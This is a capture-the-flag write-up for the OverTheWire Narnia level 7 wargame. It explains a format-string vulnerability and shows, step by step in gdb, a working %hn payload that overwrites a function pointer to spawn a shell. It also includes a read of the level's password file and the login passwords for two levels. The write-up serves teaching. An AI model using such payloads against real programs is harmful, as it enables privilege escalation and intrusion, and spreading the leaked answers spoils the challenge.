

# Level 7 → Level 8

## Solution
```
ssh narnia7@narnia.labs.overthewire.org -p 2226
```
```
YY4F9UaB60
```
```
cd /narnia ; ls -al
```
```
./narnia7
```


Let's look at the code:

```
cat narnia7.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
            fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

So, is it possible to change `ptrf` to be the address of `hackedfunction()`, instead of `goodfunction()`?

Let's look at the stack memory after printing `format` to `buffer` (after `snprintf`):

```
gdb ./narnia7
```
```
disas vuln
```


```
b *0x080492b0
```
```
r $(perl -e 'print "A"x127')
```



* Yellow - This is `ptrf`, the address of `goodfunction()`
* Green - This is the `buffer`, contanis the content fron the user...

We would like to do the following:
* Changing the content of the address **0xffffd3f8** (`$sp`) from **0x080492fa** (`goodfunction` address) to **0x0804931f** (`hackedfunction` address).
* Therefore the input string will be like this:<br />
      ```
      r $(perl -e 'print "\xf8\xd3\xff\xff" . "A"x(0x0804931f - 4) . "%n"')
      ```
* But since our target address is not at the top of the stack right now but a WORD away, we'll have to make `snprintf` "move" one. We will do this with "%x" like this:<br />
        ```
     r $(perl -e 'print "\xf8\xd3\xff\xff" . "A"x(0x0804931f - 4) . "%x" ."%n"')
        ```

Unfortunately, the input is too large.


So what can we do? Good question.
We will have to pay attention to the following fact:
* The address of `goodfunction` is **0x080492fa**
* The address of `hackedfunction` is **0x0804931f**
* That is, the only change in the content is **the last two bytes**. Luckily, as we used `"%n"` to write a WORD-sized value into the address 0xffffd3f8 we can use `"%hn"` to write only two bytes (half a WORD)
* This way we can reduce the size of the input to **0x931f** only:

Let's try this:
```
r $(perl -e 'print "\xf8\xd3\xff\xff" . "%x" . "A"x(0x931f-4-2) . "%hn"')
```
```
x/40wx $sp
```


We will notice (this also happened in previous challenges) that when the size of the input changes, so do the addresses of the stack. So now we will adjust the correct address:

```
r $(perl -e 'print "\x58\x41\xff\xff" . "%x" . "A"x(0x931f-4-2) . "%hn"')
```
```
x/40wx $sp
```


Almost.<br />
We subtract a little from the input size:

```
r $(perl -e 'print "\x58\x41\xff\xff" . "%x" . "A"x(0x931f-11) . "%hn"')
```


excellent! Now `ptrf` is actually the `hackedfunction`. We can verify this when we continue the program and enter the shell:
```
c
```


All that remains is to do this process outside of gdb, and that's it!
```
exit
```
```
exit
```
```
./narnia7 $(perl -e 'print "\x78\x41\xff\xff" . "%x" . "A"x(0x931f-6) . "%hn"')
```
```
id
```
```
whoami
```
```
cat /etc/narnia_pass/narnia8
```


## Password for the next level:
```
1aBcDgPttG
```
